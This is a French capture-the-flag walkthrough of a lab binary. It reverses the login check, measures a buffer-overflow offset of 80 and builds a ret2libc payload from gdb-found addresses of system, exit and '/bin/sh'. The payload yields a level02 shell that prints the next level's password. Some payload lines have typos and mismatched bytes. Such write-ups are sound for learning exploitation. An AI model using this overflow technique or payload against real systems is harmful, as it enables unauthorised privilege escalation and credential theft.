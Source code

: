 ## Level01

Lorsqu’on lance le programme, celui-ci nous demande un login.

On ouvre le programme sur cutter, on trouve que  verify_user_name(); est appelée.

On cherche donc dans cette fonction et on trouve une string : “dat_wil”. On essaie alors d’entrer cette string en tant qu’username et cela nous permet d’accéder au champ password.

On voit dans cutter une string “admin” qui est comparée. On essaie alors d’entrer “admin” en password, mais ça ne fonctionne pas.

Essayons de buffer overflow le fgets du password :

    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

    Program received signal SIGSEGV, Segmentation fault.
    0x37634136 in ?? ()

0x37634136 nous donne un offset de 80.

Le problème c’est qu’on ne voit pas de /bin/sh dans le programme. On va donc essayer de la trouver avec une ret2libc attack.

    (gdb) b *main+173
    Breakpoint 1 at 0x804857d
    
    (gdb) info proc map
    process 1857
    Mapped address spaces:
    Start Addr End Addr Size Offset objfile
    0x8048000 0x8049000 0x1000 0x0 /home/users/level01/level01
    0x8049000 0x804a000 0x1000 0x0 /home/users/level01/level01
    0x804a000 0x804b000 0x1000 0x1000 /home/users/level01/level01
    0xf7e2b000 0xf7e2c000 0x1000 0x0
    0xf7e2c000 0xf7fcc000 0x1a0000 0x0 /lib32/libc-2.15.so
    0xf7fcc000 0xf7fcd000 0x1000 0x1a0000 /lib32/libc-2.15.so
    0xf7fcd000 0xf7fcf000 0x2000 0x1a0000 /lib32/libc-2.15.so
    0xf7fcf000 0xf7fd0000 0x1000 0x1a2000 /lib32/libc-2.15.so
    0xf7fd0000 0xf7fd4000 0x4000 0x0
    0xf7fd8000 0xf7fdb000 0x3000 0x0
    0xf7fdb000 0xf7fdc000 0x1000 0x0 [vdso]
    0xf7fdc000 0xf7ffc000  0x20000 0x0 /lib32/ld-2.15.so
    0xf7ffc000 0xf7ffd000 0x1000  0x1f000 /lib32/ld-2.15.so
    0xf7ffd000 0xf7ffe000 0x1000  0x20000 /lib32/ld-2.15.so
    0xfffdd000 0xffffe000  0x21000 0x0 [stack]

    (gdb) find 0xf7e2b000, 0xf7fcc000,"bin/sh"
    (gdb) 0xf7f897ec
		1 pattern found.

Ici nous cherchons /bin/sh entre les adresses  **0xf7e2b000** et **0xf7ffdd00** grâce à gdb on trouve que /bin/sh ce trouve à l'adresse : **0xf7f897ec**


    (gdb) info function system
    All functions matching regular expression "system":
   
    Non-debugging symbols:
    0xf7e6aed0  __libc_system
    0xf7e6aed0  system
    0xf7f48a50  svcerr_systemerr

On prend donc l'adresse de libc_system : **0xf7e6aed0**

    (gdb) info function exit
    All functions matching regular expression "exit":
    
    Non-debugging symbols:
    0xf7e5eb70  exit
    0xf7e5eba0  on_exit
    0xf7e5edb0  __cxa_atexit
    0xf7e5ef50  quick_exit
    0xf7e5ef80  __cxa_at_quick_exit
    0xf7ee45c4  _exit
    0xf7f27ec0  pthread_exit
    0xf7f2d4f0  __cyg_profile_func_exit
    0xf7f4bc30  svc_exit
    0xf7f55d80  atexit
Ici nous prenons l'adresse de l'exit : **0xf7e5eb70**

A partir de là nous pouvons créer notre payload :

*Overflow + System + Exit + /bin/sh*

Ce qui nous donne : 

    $ python -c "print 'A' * 80 + '\xd0\xae\xe6\xf7\ + '\x70\xeb\xe5\xf7\' + '\xed\x97\xf8\xf7\'" > /tmp/payload

On ajoute alors la première commande pour accéder au password ce qui nous donne : 

    $ python -c "print 'dat_will' + '\n' + 'A' * 80 + '\xd0\xae\xe6\xf7' + '\x70\xeb\xe5\xf7' + '\xec\x97\xf8\xf7' " > /tmp/payload

    cat /tmp/payload - | ./level01
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: verifying username....
    
    Enter Password:
    nope, incorrect password...

    $ whoami
    level02
    $ cat /home/users/level02/.pass
    PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
